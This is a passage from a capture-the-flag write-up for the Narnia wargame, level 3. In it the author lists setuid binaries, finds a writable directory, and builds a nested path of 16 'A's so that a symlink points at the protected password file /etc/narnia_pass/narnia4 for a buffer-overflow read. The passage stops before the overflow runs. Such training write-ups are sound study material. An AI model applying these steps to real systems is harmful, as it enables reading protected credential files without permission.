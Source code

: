 -r-sr-x---  1 narnia7 narnia6 5869 Nov 14  2014 narnia6
-r--r-----  1 narnia6 narnia6 1566 Nov 14  2014 narnia6.c
-r-sr-x---  1 narnia8 narnia7 6463 Nov 14  2014 narnia7
-r--r-----  1 narnia7 narnia7 1930 Nov 14  2014 narnia7.c
-r-sr-x---  1 narnia9 narnia8 5213 Nov 14  2014 narnia8
-r--r-----  1 narnia8 narnia8 1292 Nov 14  2014 narnia8.c
>```
>
> Hmmm, permission denied.  Let's find a directory that we can create a symbolic link in.
>
>```
narnia3@melinda:/tmp$ find / -type d -user narnia3 -print 2>/dev/null
/proc/1811
/proc/1811/task
/proc/1811/task/1811
/proc/1811/task/1811/fd
/proc/1811/task/1811/fdinfo
/proc/1811/task/1811/ns
/proc/1811/task/1811/net
/proc/1811/task/1811/attr
/proc/1811/fd
/proc/1811/fdinfo
/proc/1811/ns
/proc/1811/net
/proc/1811/attr
/proc/32190
/proc/32190/task
/proc/32190/task/32190
/proc/32190/task/32190/fd
/proc/32190/task/32190/fdinfo
/proc/32190/task/32190/ns
/proc/32190/task/32190/net
/proc/32190/task/32190/attr
/proc/32190/fd
/proc/32190/fdinfo
/proc/32190/ns
/proc/32190/net
/proc/32190/attr
/run/user/14003
/sys/fs/cgroup/systemd/user/14003.user/39597.session
>```
>
> Ok, ```/run/user/14003``` will work as good as any.
>
>```
narnia3@melinda:/tmp$ cd /run/user/14003
narnia3@melinda:/run/user/14003$ ln -s /etc/narnia_pass/narnia4 $(python -c 'print "/run/user/14003/"+"A"*16+"/run/user/14003/f"')
ln: failed to create symbolic link '/run/user/14003/AAAAAAAAAAAAAAAA/run/user/14003/f': No such file or directory
>```
>
> Man, things are going to get weird fast.  It looks like I need to create this weird directory structure first.  Let's do that and try again.
>
>```
narnia3@melinda:/run/user/14003$ mkdir -p $(python -c 'print "A"*16')/run/user/14003
narnia3@melinda:/run/user/14003$ ln -s /etc/narnia_pass/narnia4 $(python -c 'print "/run/user/14003/"+"A"*16+"/run/user/14003/f"')
narnia3@melinda:/run/user/14003$ ls -l AAAAAAAAAAAAAAAA/run/user/14003/
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Jul 20 04:40 f -> /etc/narnia_pass/narnia4
>```
>